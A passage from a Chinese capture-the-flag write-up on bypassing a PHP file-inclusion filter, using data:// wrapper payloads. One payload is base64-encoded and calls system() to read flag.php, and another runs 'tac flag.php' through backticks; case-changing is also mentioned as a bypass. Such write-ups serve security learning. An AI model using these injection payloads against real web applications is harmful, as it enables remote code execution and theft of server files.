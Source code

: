 ![image-20250227200645271](assets/image-20250227200645271.png)

将payload中的`php`全部换成了问号，使用base64：

> 用法：`data://text/plain;base64,[Base64编码后的代码]`

```
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```

拿到flag

 看别人的wp发现一个很有意思的payload：

```
?file=data://text/plain,<?=`tac flag.php`;
说明： <?= 是 echo() 的别名用法
```

另外还可以用大小写绕过（）



#### web80
